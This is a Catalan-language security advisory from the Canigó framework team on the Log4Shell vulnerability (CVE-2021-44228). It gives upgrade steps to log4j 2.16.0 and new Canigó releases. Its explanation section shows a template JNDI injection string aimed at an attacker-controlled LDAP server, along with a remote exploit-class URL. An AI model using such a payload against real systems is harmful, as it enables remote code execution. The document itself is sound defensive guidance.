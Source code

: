 +++
date        = "2021-12-17"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.
Aquesta vulnerabilitat **només afecta les versions `2.x` de Log4J i es troba corregida en la versió `2.16.0`**.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046/> \
* <https://nvd.nist.gov/vuln/detail/CVE-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \

## Com solucionar la vulnerabilitat a les aplicacions

---

**Actualització a 16/12/2021**:

L'Apache Software Foundation ha publicat el 13/12/2021 que les mesures mitigadores han quedat desacreditades donat s'ha descobert
que aquestes només limiten l'exposició mentre deixen oberts alguns vectors d'atac.
La raó per la qual aquestes mesures són insuficients és que, a més del vector d'atac Thread Context, encara hi ha rutes de
codi a Log4j on es poden produir cerques de missatges.
Es conclou, per tant, que la mesura més segura és actualitzar Log4j a una versió segura quedant desacreditades
les següents mesures prèvies comunicades: setting de la propietat log4j2.formatMsgNoLookups o la variable d'entorn
LOG4J_FORMAT_MSG_NO_LOOKUPS a true per a versions >= 2.10, o modificant la configuració de registre per desactivar
les cerques de missatges amb %m{nolookups}, %msg{nolookups} o %message{nolookups per a versions >= 2.7 i <= 2.14.1.

Per a més informació: https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046

---

Cal substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

* Opció 1) Modificar el fitxer `pom.xml` - **opció recomanada** -, compilar i desplegar l'aplicació:

    > * Sí el JDK és major o igual a `1.8`:
```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

    > * Sí el JDK és `1.7`:
```xml
<properties>
<log4j2.version>2.12.2</log4j2.version>
</properties>
```

* Opció 2) Injectar la variable durant la construcció de l'aplicació, compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.16.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.8 i 3.6.2 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.8 i 3.6.2](/noticies/2021-12-17-CAN-actualitzacio-canigo-3_4_8_3_6_2).

* Versió 1.6.9 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.8.
Podeu consultar: [Actualització archetype 1.6.9](/noticies/2021-12-17-CAN-Actualitzacio_archetype_1_6_9/).

* Versió 1.7.2 de l'archetype de Canigó i la versió 1.8.2 del plugin del eclipse per a generar projectes amb Canigó 3.6.2.
Podeu consultar: [Actualització archetype 1.7.2 i plugin Eclipse 1.8.2](/noticies/2021-12-17-CAN-Actualitzacio_archetype_1_7_2_plugin_eclipse_1_8_2/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.8 i 3.6.2. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.16.0 de log4j:

```xml
<properties>
<log4j2.version>2.16.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.16.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó
al [servei CAN](https://cstd.ctti.gencat.cat/jiracstd/projects/CAN) del JIRA CSTD o enviant-nos un correu electrònic
a la [bústia del CS Canigó](mailto:oficina-tecnica.canigo.ctti@gencat.cat).